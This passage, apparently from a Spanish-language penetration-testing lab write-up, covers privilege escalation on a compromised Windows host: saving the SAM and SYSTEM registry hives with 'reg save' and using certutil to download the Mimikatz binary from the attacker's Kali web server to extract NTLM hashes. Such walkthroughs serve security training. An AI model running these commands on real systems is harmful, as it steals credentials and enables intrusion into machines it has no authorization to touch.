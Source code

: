 ## Privilege Escalation

### Dumping Credentials - SAM File Hashes (mimikatz)

Debido que disponemos de permisos de Administrador sobre el equipo, una de las diversas cosas que poemos realizar en la máquina es dumpear la SAM para obtener los hashes NTLM de los usuarios locales del equipo.

Para ello exportaremos los archivos _**SAM**_ y _**SYSTEM**_ a través de "reg save".

```powershell
reg save HKLM\SYSTEM C:\Utils\SYSTEM

reg save HKLM\SAM C:\Utils\SAM
```

<figure><img src="../../../.gitbook/assets/3049_vmware_MEPZjY2pjB.png" alt=""><figcaption></figcaption></figure>

Una vez obtengamos la copia de los archivos _**SAM/SYSTEM**_ procederemos a utilizar la herramienta de _**Mimikatz**_ para extraer los hashes de la SAM desde la propia máquina víctima.

Para ello, procederemos a pasarnos el binario de _**Mimikatz**_ desde nuestra Kali al equipo comprometido.

```bash
python3 -m http.server 80

certutil.exe -f -urlcache -split http://10.10.16.7/mk.exe C:\Utils\mk.exe
```

<figure><img src="../../../.gitbook/assets/3048_vmware_37vvJzNCC6.png" alt=""><figcaption></figcaption></figure>

